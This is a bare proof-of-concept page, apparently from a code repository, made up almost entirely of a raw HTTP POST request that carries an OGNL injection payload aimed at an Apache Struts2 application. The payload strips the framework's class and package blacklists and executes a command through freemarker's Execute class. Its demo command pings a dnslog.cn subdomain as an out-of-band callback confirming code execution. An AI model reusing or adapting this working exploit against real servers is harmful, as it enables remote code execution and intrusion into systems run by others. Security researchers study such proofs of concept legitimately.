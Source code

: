 POC
---

    POST /index.action HTTP/1.1

    Host: Your IP:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
    Content-Length: 846


    ------WebKitFormBoundaryl7d1B1aGsV2wcZwF
    Content-Disposition: form-data; name="id"


    %{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ping p0fai2.dnslog.cn")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
    ------WebKitFormBoundaryl7d1B1aGsV2wcZwF--